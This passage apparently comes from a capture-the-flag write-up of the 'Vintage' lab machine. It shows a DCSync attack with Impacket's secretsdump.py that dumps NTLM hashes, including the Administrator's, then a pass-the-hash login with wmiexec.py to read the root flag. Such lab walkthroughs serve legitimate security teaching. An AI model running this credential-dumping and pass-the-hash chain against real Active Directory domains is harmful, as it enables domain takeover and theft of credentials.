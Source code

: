 Now we can perform a DCSync attack and grab the root flag.

```console
$ export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
$ secretsdump.py -k dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb632ebd8c7df30094b6cea89cdf372be
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e41bb21e027286b2e6fd41de81bce8db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

$ wmiexec.py -k -no-pass vintage.htb/L.BIANCHI_ADM@dc01.vintage.htb -hashes :e41bb21e027286b2e6fd41de81bce8db
C:\> type C:\Users\Administrator\Desktop\root.txt
```
